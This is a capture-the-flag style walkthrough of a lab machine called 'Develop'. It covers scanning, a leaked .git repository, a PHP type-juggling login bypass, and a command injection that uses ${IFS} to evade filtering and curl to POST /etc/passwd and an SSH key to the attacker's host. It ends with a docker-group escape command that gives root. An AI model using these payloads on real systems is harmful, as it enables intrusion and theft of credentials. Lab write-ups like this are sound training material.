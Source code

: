# Develop

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.135
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:38 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Did a detailed scan on the HTTP ports as well:

```
$ sudo nmap -p 80,8080 -sC -sV --min-rate 3000 192.168.160.135      
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 11:40 +08
Nmap scan report for 192.168.160.135
Host is up (0.17s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-generator: Jekyll v4.1.1
|_http-title: Develop Solutions
| http-git: 
|   192.168.160.135:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added fix to do 
8080/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
| http-title: Admin Panel
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
```

So there's a `.git` repository which we can download first.&#x20;

### Web + Git Enumeration

Port 80 hosts a corporate website:

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

If we click 'Get in touch', we are redirected to `develop.site/getintouch.php`. We can first add that to our `/etc/hosts` file and then enumerate further.&#x20;

The page reveals a simple Contact Form:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

Nothing much there. I ran a `gobuster` scan on the website and also downloaded the `.git` repository. While the `gobuster` scan ran, I enumerated the logs of the repository. Here's the interesting output:

```
$ git log -p -5
<TRUNCATED>
diff --git a/README.md b/README.md
index 4e81ff9..ef97745 100644
--- a/README.md
+++ b/README.md
@@ -1,6 +1,8 @@
 DONE:
 - Added staff vhost
 - Removed juicy files from git repo
-
+- Implemented blacklist & whitelist filters to prevent remote code execution reported by the last penetration test performed on our platform
+ 
 TODO:
-- Change weak passowrds
+- Change weak password
+- Remove commands from the whitelist like "cut" which are not needed anymore

...

diff --git a/init.sql b/init.sql
deleted file mode 100644
index e27be17..0000000
--- a/init.sql
+++ /dev/null
@@ -1,16 +0,0 @@
-DROP SCHEMA IF EXISTS app;
-CREATE SCHEMA app;
-USE app;
-
-CREATE TABLE staff(
-    id INT NOT NULL AUTO_INCREMENT,
-    username VARCHAR(20),
-    email VARCHAR(40),
-    password VARCHAR(255),
-    PRIMARY KEY(id)
-);
-
-# Inserting staff
-INSERT INTO staff(username, email, password) VALUES("franz", "franz@develop.info", "2df3f8123cd4cf019e215a37a19d0972");
-INSERT INTO staff(username, email, password) VALUES("alex", "alex@develop.info", "2af05664fdd33119293ce07da4509139");
-INSERT INTO staff(username, email, password) VALUES("lu191", "lu191@develop.info", "0e987654321098765432109876543210");
diff --git a/login.php b/login.php
deleted file mode 100644
index 28dd8b2..0000000
--- a/login.php
+++ /dev/null
@@ -1,101 +0,0 @@
-<?php
-session_start();
-require_once('database.php');
-
-if (isset($_POST['login'])) {
-  $username = $_POST['inputUsername'] ?? '';
-  $password = $_POST['inputPassword'] ?? '';
-  
-  if (empty($username) || empty($password)) {
-      $msg = 'Inserisci username e password %s';
-  } else {
-      $query = "
-          SELECT username, password, email
-          FROM staff
-          WHERE username = :username
-      ";
-      
-      $check = $pdo->prepare($query);
-      $check->bindParam(':username', $username, PDO::PARAM_STR);
-      $check->execute();
-      
-      $user = $check->fetch(PDO::FETCH_ASSOC);
-      
-      if (!$user || (md5($password) != $user['password'])) {
-          $msg = 'Credenziali utente errate %s';
-      } else {
-          session_regenerate_id();
-          $_SESSION['session_id'] = session_id();
-          $_SESSION['username'] = $user['username'];
-          $_SESSION['email'] = $user['email'];
-          
-          header('Location: ./dashboard/dashboard.php');
-          exit;
-      }
-  }
-}
-?>
```

Firstly, we have some mention of a blacklist and whitelist preventing RCE. Next, we have some hashes and users, of which the hashes don't crack.&#x20;

Lastly, we have `login.php` form, which uses the username concatenated with the MD5 of the password. This authentication mechanism is vulnerable to PHP type juggling since `===` is not used, hence magic hashes can be used to bypass the login.&#x20;

### Magic Hashes --> LFI SSH

The `.git` repository seems to be for the service running on port 8080:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

We can login with `lu191:240610708`, abusing the type juggling here and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

The Resources tab of the dashboard shows potential for RCE:

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

So we know that this is probably still vulnerable to RCE, and it tells us when we are blocked.&#x20;

<figure><img src="../../../.gitbook/assets/image (14) (4).png" alt=""><figcaption></figcaption></figure>

I tested different commands, and found that `curl` isn't blocked:

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

Commands like `bash` and `sh` are blocked, and so are 'space' characters, so it will be difficult to get a reverse shell through `curl`. However, we can use this to read the files on the system by sending POST requests to our listening port 80.&#x20;

To overcome the space character block, we can use `${IFS}`. Using this, we can send POST requests with file contents using the `-F` flag:

{% code overflow="wrap" %}
```
127.0.0.1;curl${IFS}-X${IFS}POST${IFS}-F${IFS}"file=@/etc/passwd"${IFS}http://192.168.45.191
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (9).png" alt=""><figcaption></figcaption></figure>

Using this method, I found that the user was `franz`. We can then attempt to read their private SSH key:

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

We can then `ssh` in:

<figure><img src="../../../.gitbook/assets/image (4) (8).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Docker Group

As seen above, the user is part of the `docker` group, meaning that we can easily escalate privileges. Firstly, find the images present:

```
$ docker images                                                                                        
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE                                               
mysql        8.0.22    d4c3cafb11d5   2 years ago   545MB
```

&#x20;Just run this command from Hacktricks:

{% code overflow="wrap" %}
```
docker run -it -v /:/host/ --cap-add=ALL --security-opt apparmor=unconfined --security-opt seccomp=unconfined --security-opt label:disable --pid=host --userns=host --uts=host --cgroupns=host d4c3cafb11d5 chroot /host/ bash
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>
